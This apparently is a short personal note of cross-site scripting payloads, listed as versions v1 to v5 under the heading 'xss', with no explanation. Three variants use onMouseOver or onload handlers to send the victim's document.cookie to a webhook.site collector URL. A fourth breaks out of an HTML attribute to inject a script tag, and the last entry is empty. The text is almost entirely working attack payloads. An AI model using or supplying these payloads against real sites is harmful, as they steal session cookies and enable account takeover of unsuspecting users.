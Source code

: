 # xss
https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44
- v1
```html
<b onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</b>
```
- v2 (can't use onload)
```html
<iframe onload="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
- v3 
<iframe onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>

- v4 
"/> <script>alert(0)</script> <!--

- v5
